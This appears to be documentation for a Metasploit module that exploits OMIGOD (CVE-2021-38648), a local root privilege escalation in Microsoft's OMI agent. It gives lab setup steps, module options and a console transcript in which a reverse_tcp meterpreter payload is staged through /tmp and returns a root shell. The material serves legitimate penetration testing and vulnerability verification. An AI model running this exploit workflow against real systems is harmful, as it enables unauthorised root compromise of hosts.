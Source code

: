 ## Vulnerable Application

By removing the authentication exchange, an attacker can issue requests to the local OMI management socket that will
cause it to execute an operating system command as the root user. This vulnerability was patched in OMI version 1.6.8-1
(released September 8th 2021).

## Verification Steps

1. Start the application using the [Censys Dockerfile][1]
    1. `docker build . -t ms-omi:cve-2021-38648`
    2. `docker run -it --entrypoint /bin/bash ms-omi:cve-2021-38648`
    3. `/etc/init.d/omid restart`
2. Start `msfconsole`
3. Obtain a session within the container
    * The `exploit/multi/script/web_delivery` works well for this purpose
5. Do: `use exploit/linux/local/cve_2021_38648_omigod`
6. Set the module options
7. Do: `exploit`
8. You should get a root shell.

## Options

### WritableDir
*This is an advanced option.*

A directory where you can write files. When using the `Linux Dropper` target, this option must be an absolute path and
less than 246 characters long.

### SocketPath
*This is an advanced option.*

The path to the OMI server socket. The default path is `/var/opt/omi/run/omiserver.sock` however when this option is
left blank, it will be determined at runtime.

## Scenarios

### Ubuntu 20.04 x64, OMI v1.6.8, SCX v1.6.6

```
msf6 > sessions -i -1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: smcintyre
meterpreter > background 
[*] Backgrounding session 1...
msf6 > use exploit/linux/local/cve_2021_38648_omigod 
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/local/cve_2021_38648_omigod) > set TARGET Linux\ Dropper 
TARGET => Linux Dropper
msf6 exploit(linux/local/cve_2021_38648_omigod) > set PAYLOAD linux/x64/meterpreter/reverse_tcp 
PAYLOAD => linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/local/cve_2021_38648_omigod) > set LHOST 192.168.159.128
LHOST => 192.168.159.128
msf6 exploit(linux/local/cve_2021_38648_omigod) > set SESSION 1
SESSION => 1
msf6 exploit(linux/local/cve_2021_38648_omigod) > check
[*] The target appears to be vulnerable. Version 1.6.8-0 is affected.
msf6 exploit(linux/local/cve_2021_38648_omigod) > exploit

[*] Started reverse TCP handler on 192.168.159.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version 1.6.8-0 is affected.
[*] Writing '/tmp/zbACyVFZyT' (250 bytes) ...
[*] Writing '/tmp/OJ3FZ2W.py' (3824 bytes) ...
[*] Sending stage (3012548 bytes) to 192.168.159.128
[+] Deleted /tmp/zbACyVFZyT
[+] Deleted /tmp/OJ3FZ2W.py
[*] Meterpreter session 2 opened (192.168.159.128:4444 -> 192.168.159.128:51870 ) at 2021-10-27 11:47:48 -0400

meterpreter > getuid
Server username: root
meterpreter > 
```

[1]: https://gist.github.com/dabdine/ac6aadde068cad4d58251453e688a84f
